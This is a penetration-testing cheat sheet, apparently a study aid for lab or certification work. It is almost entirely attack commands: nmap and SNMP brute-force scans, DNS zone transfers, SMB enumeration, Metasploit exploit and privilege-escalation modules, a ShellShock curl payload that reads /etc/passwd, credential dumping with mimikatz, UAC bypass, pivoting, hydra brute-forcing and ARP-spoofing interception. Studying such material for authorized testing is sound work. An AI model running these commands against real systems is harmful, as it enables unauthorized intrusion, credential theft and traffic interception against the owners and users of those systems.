 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN              :    Exploiting zone transfer to display all subdomains
    - dig @authorative_dns_server axfr -x subNet (192.168)    :    Reverse DNS

### 2.SMB Misconfiguration

    nmap -p445 --script smb-protocols TARGET
    nmap -p445 --script smb-security-mode TARGET
    nmap -p445 --script smb-enum-users  TARGET

   #### 2.1 SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2 Metasploit
    exploit/windows/smb/psexec
    exploit/windows/smb/smb_relay
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
    smbclient -L IPTarget


### 3.SNMP 
#### 3.1 Detection
    nmap -sU -p 161 Target

#### 3.2 Exploitation to guess community string and Collect Info
    nmap -sU -p 161 --script=snmp-brute Target
    snmpwalk -v 1 -c public Target
    nmap -sU -p 161 --script snmp-* Target > snmp_output

### 4.Exploitation

#### 4.1 Exploit ShellShock CVE-2014-6271 (suppose it is at /browser.cgi)
    nmap -sV -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' Target
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://Target/browser.cgi

#### 4.2 Other common exploits 
    - exploit/unix/ftp/proftpd_133c_backdoor for ProFTPD ==> Result in a shell
    - exploit/multi/misc/java_rmi_server ==> Result in a shell
    - auxiliary/scanner/mysql/mysql_authbypass_hashdump ==> dump mysql password hashes
    - exploit/windows/http/badblue_passthru for badblue 2.7 ==> Result in a shell

### 3.Post Exploitation

#### 3.0 Infor Gathering
    run winenum
    run arp_scanner –r TargetNetworkSubnet
    run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

    getsystem
    post/windows/gather/win_privs        : Check if UAC enabled
    exploit/windows/local/bypassuac      : Local exploit to bypass UAC
    
    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
    incognito
    mimikatz

##### 3.1.2 Via Windows Services 
    
    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”
    
    - Using powerUp.ps1 script
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
    From MSF Console : route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
    From metrerpreter : run autoroute -s 192.168.4.0/24
    
    portfarwarding (meterpreter) ==>  portfwd add -l LocalPort -p ServicePort -r victimeIP (ex: portfwd add -l 1234 -p 80 -r 10.0.17.12)
    portfwd list    ==> This meterpreter command display current portforwarding

### 4.Bruteforcing

    hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt TARGET smb


### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
    arpspoof -i tap0 -t vic1_IP -r vic2_IP
    arpspoof -i tap0 -t vic2_IP -r vic2_IP
